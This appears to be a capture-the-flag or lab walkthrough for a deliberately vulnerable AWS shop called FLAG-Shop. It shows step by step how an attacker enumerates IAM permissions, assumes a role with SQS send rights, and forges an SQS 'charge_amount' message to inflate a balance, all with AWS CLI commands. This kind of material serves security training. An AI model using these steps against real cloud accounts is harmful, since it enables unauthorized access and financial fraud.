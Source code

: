 1. The attacker accesses the web page and identifies the features first

[ page ] → what can do
/        → User can buy items.
/receipt → User can see the purchase.
/charge  → User can charge the cash.


2. The attacker checks the privileges it has

    ```bash
    # This command will configure AWS CLI settings for a specific profile, allowing you to set credentials
    aws configure --profile [profile_name]
    # This command will give you the ARN & full name of you user.
    aws --profile [profile_name] sts get-caller-identity
    # This command will list the policies attached to your user.
    aws --profile [profile_name] iam list-user-policies --user-name [user_name]
    # This command will view the permissions granted to inline policies.
    aws --profile [profile_name] iam get-user-policy --user-name [user_name] --policy-name [polict_name]
    ```

※ Attacker finds that they have assume-role privileges for a particular role.
※ Attacker looks for clues about how to attack using this privilege.


3. Find the web source code. By analyzing the source code, the attacker checks the format of message sent to the SQS service

※ The website has a github address exposed as an annotation.
→ https://github.com/BoB12-C-G-V/FLAG-Shop

< Code Analysis Results >
- When charging the cash, a message is sent to the SQS service.
- The lambda function does not verify the received message.
- The message format is `{"charge_amount" : cash}`

※ Attacker plans to forge the cache and send message to the SQS service.


4. Assume the the sending message role about SQS service
    
    ```bash
    # This command will get you credentials for the role that can send message to SQS service
    aws --profile [profile_user] sts assume-role --role-arn [role_arn] --role-session-name [whatever_you_want_here]
    # This command will configure AWS CLI settings for a specific profile, allowing you to set credentials 
    aws configure --profile [assumed_profile_name]
    # This command will appends the obtained session token to the ~/.aws/credentials file
    echo "aws_session_token = {token}" >> ~/.aws/credentials
    ```


5. The attacker, who possesses the necessary permissions, sends a forged message to the SQS service queue
    
    ```bash
    # This command wil get you queue-url of SQS service
    aws --profile [assumed_profile_name] sqs get-queue-url --queue-name cash_charging_queue
    # This command wil sends a forged message to the SQS service queue
    aws --profile [assumed_profile_name] sqs send-message --queue-url [queue_url] --message-body '{"charge_amount": 100000000}'
    ```


6. Check the changed assets, purchase FLAG and check the secret-string
